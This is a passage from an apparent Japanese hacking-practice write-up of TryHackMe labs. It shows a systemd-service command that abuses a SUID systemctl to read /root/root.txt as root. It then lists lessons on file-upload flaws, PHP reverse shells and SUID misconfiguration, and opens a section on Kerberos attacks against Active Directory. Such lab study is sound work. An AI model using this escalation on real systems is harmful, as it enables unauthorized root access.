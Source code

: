 ![](../img/Book/7DayHacking/7DayHacking_day5_7.png)

上記の情報から/root/root.txtの情報を取得するように変更するとroot権限でしか見れないファイルの中身を取得できた。
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt> /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

### Day5勉強したこと
- Webサーバーでファイルアップロードを可能にしておくのは危険
- ファイルアップロードの拡張性制限をしていても、自書攻撃ですぐバレる
- PHPがファイルアップロード・実行できると、	Firewallをすり抜けてリバースシェルでshellを奪われる
- 不用意に実行ファイルにSUIDを付与していると脆弱性となり昇格権限されてしまう

## Day6：ActiveDirectoryへの攻撃
[Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)  
ActiveDirectoryは、会社や学校などの組織のPCを一元管理するWindowsサーバー上で動作するシステム。
ActiveDirectoryで利用されるKerberos認証の脆弱性をハッキングして、不正ログインと権限昇格をする。

